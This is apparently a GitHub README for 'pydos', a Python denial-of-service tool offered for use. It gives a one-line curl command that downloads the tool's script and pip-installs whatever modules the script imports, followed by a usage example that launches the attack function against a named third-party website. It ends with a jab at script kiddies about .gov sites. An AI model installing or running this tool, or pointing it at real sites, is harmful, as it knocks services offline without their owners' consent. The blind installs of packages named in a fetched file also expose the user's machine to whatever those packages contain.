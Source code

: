 # pydos
Effective &amp; Powerful & Effective Dos pip package

» One line installment:

curl https://raw.githubusercontent.com/MahiroDev091/pydos/main/__init__.py -o pydos.py && for module in $(grep -oP "(?<=^import )\S+" pydos.py); do if ! pip freeze | grep -q "^$module=="; then pip install "$module"; fi; done

» How to use:

from pydos import mahirol7

mahirol7("https://nomorz.com/")

» Note: This is not overpowered program that can take down .gov site skid.

